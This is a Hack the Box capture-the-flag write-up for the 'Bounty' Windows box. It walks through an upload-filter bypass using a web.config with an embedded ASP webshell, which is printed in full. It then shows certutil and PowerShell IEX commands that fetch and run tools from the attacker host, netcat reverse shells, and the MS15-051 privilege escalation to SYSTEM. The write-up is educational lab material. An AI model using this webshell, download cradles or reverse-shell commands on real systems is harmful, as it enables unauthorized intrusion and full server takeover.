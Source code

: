 ```yaml
---
title: Bounty
tags: windows
description: Write-up for Hack the Box - Bounty
---
```


![image](assets/79369796-888ee000-7f1f-11ea-9fb0-30af4d5aff32.png)

## Overview

Bounty is a Windows box running IIS and ASP.NET. There is a web page that only allowed image files to be uploaded but I was able to bypass the file restriction by uploading a web.config with embedded asp code in order to get the initial foothold. Running Sherlock I determined that it was vulnerable to MS15-051 exploits improper object handling in the win32k.sys kernel mode driver to get a shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows Server 2008 R2 Datacenter
* Microsoft IIS 7.5

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.93 -oN /mnt/data/boxes/bounty/_full_tcp_nmap.txt 
```

* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 35
```

> The nmap scan shows this is a Windows server running IIS which typically run ASP.NET pages (asp/aspx). This isn't always the case but I decided to start by specifying those two extensions.

![image](assets/80209534-41c87680-8600-11ea-96c7-b023ce0a293a.png)

* /UploadedFiles/
* /transfer.aspx

## Steps (User)

The gobuster scan provided two results: transfer.aspx and Uploadedfiles. The first provided a mechanism to upload files and the second appeared to be where those files are uploaded to. Starting with the transfer page; image files can be uploaded but I was not able to upload .asp, .aspx, .cer, .asa, .asax...

![image](assets/80257645-64ce4700-864f-11ea-9912-97bc0b4e637d.png)

I was able to view the philociraptor image that was uploaded.

![image](assets/80257707-84fe0600-864f-11ea-8fb2-931a34a634a0.png)

After an internet search I came across an article by [Soroush](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) which showed how to use the web.config file to run asp classic code. I combined Soroush's template with the one found [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) to create the web.config. The web.config now had asp code that would allow me to run commands.

> Web.config is a configuration file that is used to customize the way a site or directory behaves on a server

**web.config**

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

I uploaded the modified config file via the transfer.aspx page and browsed to http://10.10.10.93/uploadedfiles/web.config

![image](assets/80321152-e60d1180-87e8-11ea-85c5-954ab115548a.png)

> I had to repeat the upload multiple times as the file kept getting removed. To streamline this process I captured the file upload so I could easily rerun the web request to upload the file. Additional steps needed to execute commands via the webshell once it was uploaded were also done this way.

Since I I now had command execution, I prepared my machine to transfer files by starting a python http server and started a netcat listener (rlwrap nc -lvnp 4200)

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

Via the webshell, the certutil command was used to copy the file http to the target box. I copied it to the c:\windows\temp folder to prevent it from being automatically removed. 

```
certutil -urlcache -split -f http://10.10.14.22/nc.exe c:\windows\temp\nc.exe
```

With netcat on the box I was able to run a command to create a reverse shell.

```
c:\windows\temp\nc.exe -e cmd 10.10.14.22 4200
```

![image](assets/80321650-b06a2780-87ec-11ea-99bd-b84a6dc0351f.png)

## Steps (root/system)

Not seeing any hotfixes applied after running sysinfo I proceeded to run sherlock to look for exploits. First I copied sherlock to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing Find-AllVuns function

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.22/Sherlock.ps1');Find-AllVulns"
```

![image](assets/80321918-2bccd880-87ef-11ea-996b-3ba58f7fcb49.png)

This box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server.

```
python3 -m http.server 80
```

Certutil was used to download ms15-051x64.exe to the c:\windows\temp directory.

```
certutil -urlcache -split -f http://10.10.14.22/ms15-051x64.exe c:\windows\temp\ms15-051x64.exe
```

I started a netcat listener on my box, specifiying a different port (rlwrap nc -lvnp 4201). 

```
rlwrap nc -lvnp 4201
```

With the exploit on the target system I used it to create a reverse shell and received a callback as user 'nt authority\system'.

```
c:\windows\temp\ms15-051x64.exe -e cmd.exe 10.10.14.16 4201
```

![image](assets/80322013-de9d3680-87ef-11ea-9e1f-5bd8c1634778.png)
